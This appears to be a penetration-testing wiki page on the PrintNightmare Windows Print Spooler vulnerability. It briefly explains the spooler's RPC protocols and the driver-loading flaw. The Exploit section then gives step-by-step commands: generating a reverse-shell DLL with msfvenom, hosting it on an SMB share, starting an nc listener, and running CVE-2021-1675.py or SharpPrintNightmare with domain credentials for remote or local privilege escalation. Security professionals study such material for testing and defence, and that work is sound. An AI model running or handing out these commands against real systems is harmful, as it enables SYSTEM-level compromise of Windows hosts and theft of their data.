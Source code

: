 ## Theory
### The print spooler
The Print Spooler is a Microsoft built-in service that manages printing jobs. It is enabled by default and runs within the SYSTEM context.

3 RPC protocols are registered by the spooler:

- MS-RPRN: Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server synchronously.
- MS-PAR: Microsoft’s Print System Asynchronous Remote Protocol. It has the same functionalities as MS-RPRN, but works asynchronously.
- MS-PAN: Microsoft’s Print System Asynchronous Notification Protocol. It is used to receive print status notifications from a print server and to send server-requested responses to those notifications back to the server.
## PrintNightmare
"PrintNightmare" refers to an RCE (Remote Command Execution) vulnerability. If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation) context.

the vulnerability lies in the functions allowing remote driver installation by users, `RpcAddPrinterDriverEx` and `RpcAddPrinterDriver`:

1. The attacker stores the driver DLL file on a SMB share reachable from the server.
2. The client creates a DRIVER_INFO_2 object containing the path to the attacker's DLL and passes it into the `DRIVER_CONTAINER` object.
3. The client calls `RpcAddPrinterDriverE`x with the `DRIVER_CONTAINER` to load the attacker's DLL into the server's dynamic library and with multiple bit values within the `dwFileCopyFlags` in order to bypass the `SeLoadDriverPrivilege` privilege verification by the server.
4. The attacker's DLL is executed on the server within SYSTEM context.

## Exploit
=== "UNIX-like"
    From Unix-like systems, the attack can be conducted as follows

    1. Check if the target's RPC pipes are available: Impacket's [rpcdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py)
    2. Generate a DLL payload: msfvenom
    3. Host an SMB server from which the DLL can be fetched: Impacket's [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
    4. Exploit PrintNightmare: CVE-2021-1675.py (MS-RPRN abuse, MS-PAR abuse)
    5. Profit from the DLL being executed by the target
    ```bash
    # Check open pipes
    rpcdump.py @192.168.1.16 | egrep 'MS-RPRN|MS-PAR'

    # Create a DLL payload (reverse shell in this example)
    msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -o /workspace/smb/remote.dll

    # Host a SMB share 
    smbserver.py -smb2support "WHATEVERNAME" /workspace/smb/

    # Start the listener (for the reverse shell)
    nc -lvnp $LOCAL_PORT

    # Run the exploit
    CVE-2021-1675.py $DOMAIN/$USER:$PASSWORD@$TARGET_IP '\\$LOCAL_IP\$SHARE\remote.dll'
    ```
=== "Windows"
    From Windows systems, the attack can be conducted in an LPE or RCE context with the following PoC: https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare.
    ```bash
    #LPE
    C:\SharpPrintNightmare.exe C:\addCube.dll

    #RCE using existing context
    SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP'

    #RCE using runas /netonly
    SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP' $DOMAIN $USER $PASSWORD
    ```